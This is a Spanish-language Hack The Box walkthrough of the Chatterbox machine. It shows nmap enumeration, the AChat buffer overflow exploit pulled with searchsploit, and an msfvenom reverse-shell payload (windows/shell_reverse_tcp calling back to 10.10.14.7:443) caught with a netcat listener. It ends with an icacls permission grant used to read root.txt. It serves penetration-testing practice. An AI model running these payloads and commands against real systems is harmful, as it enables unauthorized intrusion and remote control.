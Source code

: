 ```yaml
---
layout: post
title: HTB_Chatterbox
date: 2023/07/10
slug: HTB_Chatterbox
heroImage: /assets/machines.jpg
---
```


# Chatterbox {-}

## Introduccion {-}

La maquina del dia se llama Chatterbox.

El replay del live se puede ver aqui

[![S4vitaar Chatterbox maquina](https://img.youtube.com/vi/WeaLhmbatT0/0.jpg)](https://www.youtube.com/watch?v=WeaLhmbatT0)

Esta maquina hace parte de una sesion intensa y se puede ver a partir de 4:50:15.

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.74
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.74
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.74 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p9255,9256 10.10.10.74 -oN targeted
```


| Puerto | Servicio          | Que se nos occure? | Que falta? |
| ------ | ----------------- | ------------------ | ---------- |
| 9255   | http AChat        | Web, Fuzzing       |            |
| 9256   | achat chat system |                    |            |


## Vulnerability Assessment {-}


### Achat Chat system {-}

```bash
searchsploit achat
```

Todavia no savemos lo que es achat pero vemos exploit de typo Remote Buffer Overflow

```bash
searchsploit -m 36025
mv 36025.py achat_exploit.py
cat achat_exploit.py
```

Mirando el codigo, vemos que es un bufferflow normal que lanza una calculadora. Lo modificamos para
lanzar una reverse shell.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con Remote BOF {-}


1. Nos creamos un nuevo shellcode basada a la informacion del exploit

    ```bash
    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\
    x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\
    xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\
    xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\
    xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    ```

1. Copiamos el shell code generado y lo ponemos al sitio del buff shellcode del exploit
1. Cambiamos la ip de la maquina victima
1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el exploit modificado con python 2

    ```bash
    python achat_exploit.py
    ```

```bash
whoami
#Output
chatterbox\alfred
```

Podemos leer la flag## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
cd Desktop
type root.txt
```

No podemos leer la flag de root pero es curioso que nos podamos meter en su directorio user.

```bash
icacls root.txt
cd ..
icacls Desktop
```

Vemos que el usuario alfred tiene privilegios Full sobre el directorio Desktop del usuario root.

```bash
cd Desktop
icacls root.txt /grant alfred:F
type root.txt
```

Podemos leer la flag, lol :)
